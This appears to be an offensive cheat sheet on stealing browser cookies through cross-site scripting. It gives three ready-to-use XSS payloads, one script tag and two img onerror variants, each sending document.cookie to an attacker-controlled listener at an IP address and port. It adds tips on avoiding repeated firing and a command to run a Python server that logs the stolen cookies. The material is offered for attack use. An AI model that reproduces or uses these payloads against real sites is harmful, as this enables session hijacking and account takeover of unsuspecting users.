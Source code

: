 # JavaScript

## Cookie Stealing
(Note: `HttpOnly` should not be enabled/present in cookie header)

* **Classic way**
```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

```
* **<img> Tag and Without the Infinite Loop**

This one works and will only steal the cookie once.
```javascript
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">

```
* **<img> Tag Instead of <script> Tags**
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log.
```javascript
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

```

## Run the Cookie Stealer Python Script
You'll need a place to capture the stolen cookies. [lnxg33k](https://github.com/lnxg33k) has written an excellent Python script called [XSS-cookie-stealer.py](https://github.com/Mehdi0x90/Scripts/blob/main/Python/XSS-cookie-stealer.py). Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.
```bash
# Run script
python XSS-cookie-stealer.py

# The resulting output, at minimum, will be this
Started http server


```









